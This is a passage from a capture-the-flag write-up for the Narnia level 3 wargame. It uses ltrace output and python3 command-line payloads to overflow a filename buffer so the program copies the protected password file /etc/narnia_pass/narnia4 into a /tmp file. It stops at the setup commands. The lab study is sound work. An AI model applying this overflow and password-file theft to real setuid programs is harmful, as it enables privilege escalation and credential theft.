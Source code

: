 ```ruby
**narnia3@gibson**:**/narnia**$ ltrace ./narnia3 $(python3 -c "print('/etc/narnia_pass/narnia4' +'\x00' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A')")
-bash: warning: command substitution: ignored null byte in input
__libc_start_main(0x80491d6, 2, 0xffffd564, 0 <unfinished ...>
strcpy(0xffffd470, "/etc/narnia_pass/narnia4Aa0Aa1Aa"...)     = 0xffffd470
open("2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A"..., 2, 00)            = -1
printf("error opening %s\n", "2Aa3Aa4Aa5Aa6Aa7Aa8A\377\377\377\3770Ab1Ab2A"...error opening 2Aa3Aa4Aa5Aa6Aa7Aa8A????0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
) = 107
exit(-1 <no return ...>
+++ exited (status 255) +++
```

> We can see from the code snippet above that right after `strcpy()`, the program calls `open()` and fails. The first `open()` of the program is responsible for opening `ofile`.

Let's overflow `ofile` with a valid file.
First let's create a file in the `/tmp/` directory.

```ruby
ltrace ./narnia3 $(python3 -c "print('/etc/narnia_pass/narnia4' +'\x00' + 'Aa0Aa1A/tmp/sol3/pass' + '\x00')")

-bash: warning: command substitution: ignored null byte in input

__libc_start_main(0x80491d6, 2, 0xffffd5b4, 0 <unfinished ...>
strcpy(0xffffd4c0, "/etc/narnia_pass/narnia4\001Aa0Aa1A"...)  = 0xffffd4c0
open("/tmp/sol3/pass", 2, 00)                                 = 3
open("/etc/narnia_pass/narnia4\001Aa0Aa1A"..., 0, 00)         = -1
printf("error opening %s\n", "/etc/narnia_pass/narnia4\001Aa0Aa1A"...error opening /etc/narnia_pass/narnia4Aa0Aa1A/tmp/sol3/pass
) = 61
exit(-1 <no return ...>

+++ exited (status 255) +++
```

We can successfully overwrite and open `/tmp/sol3/pass`, and we see that `ifile` gets the entire string, and `open()` tries to open that path.

So let's give `ifile` a valid file path, that will also overflow and overwrite `ofile` with a valid file.
here is what are going to do:
1. Call ./narania3 with a 45 bytes string
2. The 45 length string will be what `ifile` will try to open. `ifile` is the file where the password should be stored. So we will create a symbolic link to the password file from our tmp directory.
3. We start overflowing `ofile` from byte 32, so we got to make sure that from this byte and on the path is of a valid file.


**First lets create the `ofile` path**
```ruby
narnia3@gibson:/narnia$ mkdir /tmp/sol3
narnia3@gibson:/narnia$ touch /tmp/sol3/pass
```
